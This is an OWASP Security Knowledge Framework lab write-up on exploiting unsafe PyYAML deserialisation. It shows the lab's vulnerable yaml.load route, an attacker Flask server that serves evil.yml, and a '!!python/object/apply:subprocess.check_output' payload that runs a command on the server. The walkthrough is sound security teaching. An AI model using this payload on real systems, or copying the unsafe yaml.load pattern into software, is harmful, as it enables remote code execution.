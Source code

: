 # KBID 271 - Deserialisation Yaml

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step1

This application is using a .yaml file to use the content and display the content in the HTML. As you can see below the default .yaml file that is used on the server "file.yaml" and the contents of this file.  

![](.gitbook/assets/screen-shot-2019-01-31-at-12.29.14.png)

In the content of the .yaml file you can see it uses a key value pair -&gt; foo : value  
Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the URL as seen in the application and will use the default "file.yaml" to be processed by the application and parse the key value to display the content in the application as shown below.

![](.gitbook/assets/screen-shot-2019-01-31-at-12.29.26.png)

In the code example the "file" parameter is used to read the file from the filesystem but as you can see this is under the users control. Then this file is being used in the yaml.load method to parse the file and retrieve the value from it. Instead of just reading the intended text files from the file system, a potential attacker could abuse this function to also supply his own crafted yaml file that the attacker controls.

```python
@app.route("/information/&file=<path:filename>", methods=['GET'])
def deserialization(filename):
     print(filename, file=sys.stdout)
     if filename == 'file.yml':
         with open(filename, 'rb') as handle:
            if filename == 'file.yml':
                # Import the PyYAML dependency
                with open(filename) as yaml_file:
                # Unsafely deserialize the contents of the YAML file
                    content = yaml.load(yaml_file)
```

## Exploitation

#### Step1

A potential attacker can now tamper the "file" parameter to be able to supply his own .yaml file and that will be parsed by the application. For doing this type of attack we need to perform a Remote File Inclusion \(RFI\) attack. Its a similair attack as the Local File Inclusion \(LFI\) only instead of loading the files from the server \(local\) we going to load the files remote \(our webserver\). First we need to create a test.yaml file in our webserver and load this by the application.

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.yml")
def start():
    return render_template("evil.yml")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

In the above code example we can run our own webserver using Python Flask en we can render our evil.yml file and make it available to be included. For the evil.yml we will use the same key value object as in the example of the applciation.

```yaml
foo: woop woop
```

Now we have prepared our webserver and our evil.yml file we can try to have it loaded and parsed by the application.

![](.gitbook/assets/screen-shot-2019-01-31-at-13.06.53.png)

As you can see our setup for performing a RFI attack works and we can now let the application parse our files. Now lets try to create one with more dangerous characters that can trigger a parser error, for example.

```yaml
foo: !!lala'.,<>
```

![](.gitbook/assets/screen-shot-2019-01-31-at-13.03.23.png)

The parser returned an error and was not able to parse our dangerous characters in our supplied file.  
When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
foo: !!python/object/apply:subprocess.check_output ['whoami']
```

![](.gitbook/assets/screen-shot-2019-01-31-at-13.15.33.png)

Now when we used the new evil file we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization\_Cheat\_Sheet\#Python" %}

